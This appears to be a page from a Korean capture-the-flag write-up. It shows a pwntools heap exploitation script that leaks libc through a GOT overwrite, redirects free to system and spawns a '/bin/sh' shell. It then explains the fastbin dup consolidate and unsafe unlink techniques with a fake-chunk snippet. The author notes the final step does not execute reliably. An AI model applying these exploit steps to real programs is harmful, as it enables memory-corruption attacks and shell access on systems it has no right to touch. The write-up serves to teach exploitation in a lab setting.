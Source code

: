 ```python
alloc(1, fake)
delete(2)
##################################

pay = ''
pay += 'aaaaaaaa'
pay += p64(atoi_got) # big
pay += p64(puts_got) # huge
pay += p64(free_got) # small 
pay += p64(0x0000000100000001)
pay += p64(0x0000000000000001)
renew(1, pay) ## 처음에 alloc으로 했다가 안 됨을 깨닫

renew(1, p64(puts_plt)) # free got /<-/ puts_plt 
delete(2) # free start
leak = u64(p.recvuntil("\x7f")[-6:] + "\x00\x00")
libc_base = leak - libc.symbols["atoi"]
system = libc_base + libc.symbols["system"]
print(hex(system))
renew(1, p64(system)) # free got /<-/ system
alloc(2, '/bin/sh\x00')
delete(2) #-> not perfect execute.... Try it yourself

##size bypass addr : 0x601f08

p.interactive()
```

### 쓰인 기법들 (익스 순서대로)

- fastbin dup consolidate & unsafe unlink
    
    ```python
    fake = ''
    fake += p64(0) # prev size
    fake += p64(0) # size
    fake += p64(0x6020b8)
    fake += p64(0x6020c0)
    fake += p64(0x20) #big chunk의 prev size
    
    alloc(1, 'aaaa')
    alloc(2, 'bbbb')
    delete(1)
    alloc(3, 'cccc')
    delete(1)
    alloc(1, fake)
    delete(2)
    ```
    
    fastbin dup consolidate. 위에 첨부해놓은 블로그를 보면 수월히 이해할 수 있을 것이다.
    
    여기서 다시 짧막히 정리해보자면, fastbin 크기의 청크를 small bin으로 들어갈 수 있게 함으로써 double free 효과를 낼 수 있는 방식이다.
    